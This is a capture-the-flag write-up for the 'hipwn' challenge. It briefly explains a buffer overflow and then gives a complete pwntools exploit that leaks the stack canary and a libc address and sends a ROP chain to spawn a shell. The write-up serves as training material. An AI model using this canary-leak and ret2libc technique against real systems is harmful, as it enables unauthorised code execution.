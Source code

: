 # hipwn

This challenge is relatively simple, there's a while loop which takes user input and the size of the input is not checked resulting in a buffer overflow. Canary and PIE is enabled but we can simply overwrite the null byte of the canary and then leak it out. We can do the same to get an address leak from the stack and calculate libc base. Then we can overwrite the return address with a rop chain and get a shell.

```python
from pwn import *
context.arch = "amd64"

io = process("./stuff/chall")
# io = remote("45.153.243.57", 1337)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

if args.GDB:
    gdb.attach(io)

payload = b"A"*73
io.sendlineafter(b"How much???", b"200")
io.sendafter(b"content", payload)
io.recvuntil(b"A"*73)

canary = u64(b"\0" + io.recv(7))
info(f"canary is: {hex(canary)}")

io.sendlineafter(b"again?", b"1337")
io.sendlineafter(b"How much???", b"200")
payload = b"A"*72 + b"A"*16
io.sendafter(b"content", payload)
io.recvuntil(b"A"*88)

libc_addr = unpack(io.recv(6), 'all')
info(f"libc address: {hex(libc_addr)}")
libc.address = libc_addr - 0x29d90

io.sendlineafter(b"again?", b"1337")
io.sendlineafter(b"How much???", b"200")

rop = ROP(libc)
payload = b"A"*72
payload += p64(canary)
payload += b"A"*8
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b"/bin/sh\0")))
payload += p64(rop.find_gadget(['pop rsi', 'ret'])[0])
payload += p64(0)
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.sym["system"])

io.sendafter(b"content", payload)
io.sendline(b"123")

io.interactive()
```